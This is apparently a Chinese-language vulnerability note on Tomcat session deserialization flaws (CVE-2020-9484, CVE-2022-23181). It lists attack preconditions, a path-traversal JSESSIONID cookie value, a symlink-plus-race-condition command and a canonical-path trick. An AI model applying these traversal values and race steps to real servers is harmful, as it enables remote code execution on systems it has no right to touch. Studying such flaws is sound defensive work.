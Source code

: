 # Tomcat Session

```
攻击者能够控制服务器上文件的内容和文件名称。

服务器PersistenceManager配置中使用了FileStore。

Tomcat依赖jar包中存在反序列化利用链。

攻击者知道使用的FileStore存储位置并且知道其目录下存在的任意文件名称。(CVE-2022-23181)

满足条件竞争，创建Symlinks文件，并在完成文件验证后瞬间覆盖恶意序列化文件。(CVE-2022-23181)
```

## CVE-2020-9484

[Tomcat Session(CVE-2020-9484)反序列化漏洞复现](https://www.freebuf.com/vuls/245232.html)  

```xml
CVE-2020-9484
JSESSIONID=../../../../tmp/exp.session
```

## CVE-2022-23181

[Apache Tomcat权限提升漏洞分析（CVE-2022-23181）](https://mp.weixin.qq.com/s/sQH0CbiSHdpsoJf7ABPrtA)

```xml
CVE-2022-23181
ln -s /Users/xxxx/java/soft/apache-tomcat-8.5.42/work/Catalina/localhost/ROOT/a.session ../../../tmp/exp.session
JSESSIONID=../../../tmp/exp.session
然后条件竞争去修改/tmp/exp.session
```
**trick**
new File("ceshi.session").getCanonicalFile()
如果是Symlinks文件就返回本来的文件名
